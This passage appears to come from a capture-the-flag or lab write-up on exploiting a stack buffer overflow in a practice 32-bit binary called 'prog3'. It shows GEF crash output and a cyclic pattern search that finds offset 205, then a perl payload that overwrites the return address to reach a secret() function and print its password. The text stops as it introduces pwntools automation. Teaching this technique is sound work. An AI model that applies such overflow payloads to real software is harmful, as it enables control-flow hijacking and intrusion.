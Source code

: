 ```shell
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
─────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffc8ec│+0x0000: 0x0804937d  →  <main+103> mov eax, 0x0       ← $esp
0xffffc8f0│+0x0004: 0x0804a055  →  "ZmQQsmRExtDVVHqfpJwyfjFzUTI"
0xffffc8f4│+0x0008: 0xffffc90f  →  "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaama[...]"
0xffffc8f8│+0x000c: 0x00000010
0xffffc8fc│+0x0010: 0xf7d7f614  →  0x000008b9
0xffffc900│+0x0014: 0xf63d4e2e
0xffffc904│+0x0018: 0x003055e4
0xffffc908│+0x001c: 0xf7fc1688  →  0xf7ffdbbc  →  0xf7fc17a0  →  0xf7ffda50  →  0x00000000
───────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x63636161
───────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "prog3", stopped 0x63636161 in ?? (), reason: SIGSEGV
```

Nice, so we can see that the program crashed because it tried to jump to `0x63636161`, which is part of the pattern we jumped to. How can we find the offset? GEF has a solution for that too, using the pattern search we can search for `0x63636161` or `aacc`, or better yet, we can just search for the current EIP register value.

```shell
gef➤  pattern search $eip
[+] Searching for '61616363'/'63636161' with period=4
[+] Found at offset 205 (little-endian search) likely
```

Just like that, we found the offset we need to control the return address. Now we can also quickly get the address of secret() by using the info functions command.

```shell
gef➤  info func secret
All functions matching regular expression "secret":

Non-debugging symbols:
0x080492f1  secret
```

So the address is `0x080492f1` and the offset we need is `205`. Let's test it out:

```shell
$ perl -e 'print "A"x205,"\xf1\x92\x04\x08"' | ./prog3
secret password is ZmQQsmRExtDVVHqf
```

Beautiful, we got the secret password.

## Method 4: Pwntools Automation
Lastly, and a bit more unconventional, but we can use pwntools to automate all of this for us. Here's a simple script using common pwnlib functions to automate the entire process for us, from generating the cyclic pattern to finding the offset, to getting the address of the secret function.
